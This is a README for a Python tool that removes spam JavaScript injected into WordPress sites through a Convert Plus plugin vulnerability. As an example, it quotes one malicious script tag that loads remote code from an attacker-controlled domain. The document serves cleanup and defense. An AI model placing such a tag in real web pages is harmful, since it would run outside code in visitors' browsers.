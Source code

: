 # Wordpress Spam Attack Removal Script

Written in Python and compatible with both **Python2** and **Python3**.

This script essentially removes spam attack injections from a given path. The convertplug plugin that comes with Avada which has a  vulnurability disclosed by Wordfence have caused numerous sites to be breached the breach contains access to content,code and database and this script should be only utilized to clean injected scripts from the themes and any other place where it might be. Please do seek help of a professional to handle the rest of the issues. 

You can read the details about vulnerability from here

<https://www.wordfence.com/blog/2019/05/critical-vulnerability-patched-in-popular-convert-plus-plugin/>

## Considirations

This script utilizes **RAM** while reading files and does not **discriminate** file extensions and checks all files. This can be improved by various methods.

__PS : This script does replaces text that is inside the "database.json" does not locates or scans shells.__

### Scope

There are 4 specific JS injections that has occured after this vulnurability and the database.json contains only those records. In case you want to add further javascript/to be replaced you can use insert.py.

#### Example Injected Script

```html
<script type='text/javascript' async src='https://css.developmyredflag.top/sjquery.min.js?style=prime&'></script>
```

Various kinds of scripts exists like these and this tool/script automizes the removal process without breaking themes, plugins and sites as a whole. Instead of using backups for this using this script and scanning for shells through Wordfence can be an option.

## Example Usage

Script is written for Python 2.7 + and logs the altered files as well so you can use these logs to make sure they are clean for manual inspection.

Install the dependencies and devDependencies and start the server.

### Example Insert Operation

```sh
python insert.py "string_in_double_quotes"
```

### Example Cleanup Operation

```sh
python cleanup.py your_domain.com
```

or entering a whole path like

```sh
python cleanup.py /home/user/your_domain.com
```

### License

License can be found under LICENSE in this repository.
